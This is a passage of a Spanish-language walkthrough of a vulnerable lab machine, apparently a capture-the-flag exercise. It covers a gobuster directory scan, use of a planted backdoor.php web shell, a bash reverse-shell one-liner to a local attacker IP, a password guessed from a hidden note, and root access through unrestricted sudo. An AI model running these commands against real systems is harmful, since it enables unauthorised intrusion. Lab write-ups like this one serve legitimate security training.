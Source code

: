 ```bash
$gobuster dir -u http://192.168.0.108/vworkshop/kgbbackdoor/ -w /usr/share/SecLists/Discovery/Web-Content/common.txt -t 100 -x php
```

- Encontramos un archivo "backdoor.php", accedemos a este y se nos muestra una pequeña entrada de input en el que debemos ingresar la contraseña encontrada en el archivo jpg.

- Nos despliega una ventana con varias opciones y tendremos la posibilidad de ejecutar comandos.

- En la opción "Execute" ejecutamos el comando para entablarnos una reverse shell y ganar acceso al sistema:

```
bash -c "bash -i >& /dev/tcp/192.168.0.107/443 0>&1"
```


# ESCALANDO PRIVILEGIOS:

- En el directorio home hacemos un "ls -la" para mostrar ficheros ocultos y vemos un directorio ".Mylife" entramos.

- Mostramos ficheros ocultos de nuevo y encontramos un ".Secret", cateamos el archivo y vemos el siguiente mensaje:

```
I have been working on this CIA BlackMarket Project but it seems like I am not doing anything 
right for people. Selling drugs and guns is not my business so soon I will quit the job. 

About my personal life I am a sharp shooter have two kids but my wife don't like me and I am broke. Food wise I eat everything but DimitryHateApple

I will add more about later! 
```

- Podemos ver una posible credencial para el usuario enumerado "dimitri", solo que está mal escrito el nombre "DimitryHateApple", lo corregimos "DimitriHateApple" y pivotamos al usuario "dimitri".

- Como "dimitri" vemos permisos de sudoers (sudo -l) y vemos lo siguiente:

```
Matching Defaults entries for dimitri on Dimitri:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User dimitri may run the following commands on Dimitri:
    (ALL : ALL) ALL
```

- Simplemente hacemos un "sudo su", ponemos la contraseña de dimitri y seremos root.
